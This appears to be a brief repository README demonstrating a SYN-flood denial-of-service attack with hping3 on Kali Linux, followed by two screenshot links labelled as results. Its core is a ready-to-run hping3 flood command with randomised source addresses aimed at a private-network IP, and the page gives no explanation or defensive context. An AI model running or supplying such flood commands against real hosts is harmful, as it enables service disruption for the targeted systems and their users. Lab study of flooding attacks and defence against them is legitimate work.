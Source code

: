 # DDoS Attack using Kali Linux and hping3.

To make an SYN attack we will use Kali Linux and hping3. 
The command to send packets to a victim is:- hping3 -c 15000 -d 120 -S -w 64 -p 80 –flood –rand-source 192.168.1.4

![](https://i.imgur.com/WKPS7td.png)

# Results
![](https://i.imgur.com/5z2LtrT.png)
